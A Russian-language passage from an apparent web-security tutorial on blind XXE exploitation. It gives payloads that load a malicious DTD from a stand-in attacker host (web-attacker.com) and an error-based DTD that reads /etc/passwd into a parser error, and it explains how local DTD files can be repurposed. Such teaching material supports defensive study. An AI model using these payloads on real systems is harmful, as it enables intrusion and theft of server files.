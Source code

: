 Например, злоумышленник может разместить вредоносный DTD по следующему URL:
`http://web-attacker.com/malicious.dtd`

Наконец, злоумышленник должен передать следующую XXE полезную нагрузку в уязвимое приложение:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

Эта техника может не работать с некоторым содержимым файлов, включая символы новой строки, содержащиеся в файле `/etc/passwd`. Это связано с тем, что некоторые анализаторы XML получают URL-адрес в определении внешней сущности с помощью API, который проверяет символы, разрешенные для появления в URL-адресе. В этой ситуации можно использовать протокол FTP вместо HTTP. Иногда невозможно передать данные, содержащие символы новой строки, поэтому вместо них можно использовать такой файл, как `/etc/hostname`.

### Эксплуатация слепого XXE для получения данных через сообщения об ошибках
Можно вызвать сообщение об ошибке при разборе XML, содержащее содержимое файла `/etc/passwd`, используя вредоносный внешний DTD следующим образом:
`<!ENTITY % file SYSTEM "file:///etc/passwd">`
`<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`
`%eval;`
`%error;`

Этот DTD выполняет следующие действия:
- Определяет сущность параметра XML под названием `file`, содержащий содержимое файла `/etc/passwd`.
- Определяет сущность параметра XML под названием `eval`, содержащий динамическое объявление другой сущности под названием `error`. Сущность `error` будет оцениваться при загрузке несуществующего файла, имя которого содержит значение сущности `file`.
- Использует сущность `eval`, которая вызывает динамическое объявление сущности `error`.
- Использует сущность `error`, так что ее значение оценивается при попытке загрузить несуществующий файл, в результате чего выдается сообщение об ошибке с именем несуществующего файла, которое является содержимым файла `/etc/passwd`.

### Эксплуатация слепого XXE путем перепрофилирования локального DTD
Как же быть со слепыми XXE-уязвимостями, когда блокируется внеполосное взаимодействие? Вы не можете переправить данные через внеполосное соединение, и вы не можете загрузить внешний DTD с удаленного сервера.

В этой ситуации все же возможно вызвать сообщения об ошибках, содержащие конфиденциальные данные, благодаря лазейке в спецификации языка XML. Если в DTD документа используется гибрид внутренних и внешних DTD-деклараций, то внутренний DTD может переопределять сущности, которые объявлены во внешнем DTD. Когда это происходит, ограничение на использование сущности параметра XML в определении другой сущности параметра ослабевает.

Это означает, что злоумышленник может использовать технику XXE на основе ошибок из внутреннего DTD, если используемая им сущность параметра XML переопределяет сущность, объявленную во внешнем DTD. Конечно, если внеполосные соединения заблокированы, то внешний DTD не может быть загружен с удаленного места. Вместо этого, это должен быть внешний DTD-файл, локальный для сервера приложений. По сути, атака заключается в вызове DTD-файла, который случайно существует в локальной файловой системе, и его перепрофилировании для переопределения существующей сущности таким образом, чтобы вызвать ошибку синтаксического анализа, содержащую конфиденциальные данные.
